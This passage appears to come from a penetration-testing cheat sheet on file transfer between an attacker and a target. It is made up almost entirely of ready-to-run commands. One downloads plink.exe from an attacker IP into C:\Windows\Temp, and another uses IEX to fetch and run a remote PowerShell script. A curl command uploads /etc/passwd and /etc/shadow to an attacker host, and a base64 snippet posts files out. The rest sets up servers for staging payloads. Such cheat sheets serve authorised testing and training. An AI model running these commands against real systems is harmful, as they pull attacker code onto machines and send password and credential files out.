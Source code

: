 ```
powershell wget -Uri http://192.168.45.183/plink.exe -OutFile C:\Windows\Temp\plink.exe
```

## Linux and Windows

### Python Server

Attacker:

```bash
updog -p 80
```

OR

```bash
python3 -m uploadserver
```

Target:

Download

{% code title="Use PSUpload.ps1" overflow="wrap" %}
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://<ip>:8000/upload -File C:\Path\to\file
```
{% endcode %}

Upload:

{% code overflow="wrap" %}
```bash
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
{% endcode %}

To base64 encode:

{% code overflow="wrap" %}
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Path\to\file' -Encoding Byte))
Invoke-WebRequest -Uri http://<ip>:8000/ -Method POST -Body $b64
```
{% endcode %}

### Apache Server

```bash
sudo systemctl start apache2
```

```
sudo cp /path/to/file.exe /var/www/html/
```
